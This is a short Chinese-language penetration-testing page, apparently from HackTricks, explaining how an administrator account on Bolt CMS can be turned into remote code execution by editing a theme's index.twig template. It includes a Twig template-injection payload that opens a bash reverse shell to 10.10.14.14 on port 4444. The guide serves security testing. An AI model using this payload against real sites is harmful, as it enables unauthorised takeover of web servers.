 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

在以管理员身份登录后（访问 /bot 以获取登录提示），您可以在 Bolt CMS 中获得 RCE：

- 选择 `Configuration` -> `View Configuration` -> `Main Configuration` 或访问 URL 路径 `/bolt/file-edit/config?file=/bolt/config.yaml`
- 检查主题的值

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- 选择 `File management` -> `View & edit templates`
- 选择在上一步中找到的主题基础（在本例中为 `base-2021`）并选择 `index.twig`
- 在我的情况下，这在 URL 路径 /bolt/file-edit/themes?file=/base-2021/index.twig 中
- 通过 [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php) 在此文件中设置您的有效载荷，例如：`{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- 并保存更改

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- 在 `Maintenance` -> `Clear the cache` 中清除缓存
- 作为普通用户再次访问该页面，负载应被执行

{{#include ../../banners/hacktricks-training.md}}
